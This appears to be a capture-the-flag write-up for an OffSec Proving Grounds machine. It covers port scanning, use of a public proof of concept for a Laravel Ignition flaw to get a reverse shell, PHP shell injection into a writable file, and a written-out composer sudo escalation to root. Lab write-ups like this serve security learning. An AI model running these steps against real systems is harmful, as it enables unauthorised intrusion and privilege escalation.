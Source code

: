 ```yaml
---

title: CTF-200-07 (OffSec. Proving Grounds)
image: /assets/writeups/trace10.jpg
description: Write-up of CTF-200-07 Machine
date: 2023-12-29 09:00:00 -3000
categories: [proving grounds]
tags: [lavaral, CVE, LAvita, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Host is up, received syn-ack (0.23s latency).
Scanned at 2023-12-28 00:54:45 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

So we found two ports open `22` & `80`

#### Port 80:

Visiting Port `80` we see a web app running which is also running **Laravel 8.4.0**, Quick Google Search and I found [CVE-2021-3129](https://security.snyk.io/vuln/SNYK-PHP-FACADEIGNITION-1059267)

> [POC](https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/main/CVE-2021-3129.py)

## www-data:

We can use this POC to execute the commands like:

![poccheck.png](../../assets/writeups/2023-12-27-CTF-200-07/poccheck.png)

Running the POC to get callback for reverse shell,

![gettingrev1.png](../../assets/writeups/2023-12-27-CTF-200-07/gettingrev1.png)

and we get the user shell

![rev2.png](../../assets/writeups/2023-12-27-CTF-200-07/rev2.png)

## Getting User:

User skunk belong to sudo(27) group (Found in linPEAS result). So we need to get shell as user skunk.

Running Pspy to check for the necessary files and ways we can get the skunk shell and i found this php file running which belongs to user `Skunk` 

![pspyresult.png](../../assets/writeups/2023-12-27-CTF-200-07/pspyresult.png)

And we have Write Access to it, 

![writeaccess.png](../../assets/writeups/2023-12-27-CTF-200-07/writeaccess.png)

Injecting a PHP reverse shell will get us the shell as user `Skunk`

![Screenshot_2023-12-28_11-47-12.png](../../assets/writeups/2023-12-27-CTF-200-07/Screenshot_2023-12-28_11-47-12.png)

## Getting Root:

Sticking to the basics i ran `sudo -l` and i found 

```bash
skunk@debian:/$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *

```

And [GTFO](https://gtfobins.github.io/gtfobins/composer/#limited-suid) has exploit method for composer, we follow the path 

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```

Since only `www-data` has write access to it, so do this whilst being in the `www-data` shell and then back to `Skunk` shell we run

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

and we get root shell

![root.png](../../assets/writeups/2023-12-27-CTF-200-07/root.png)


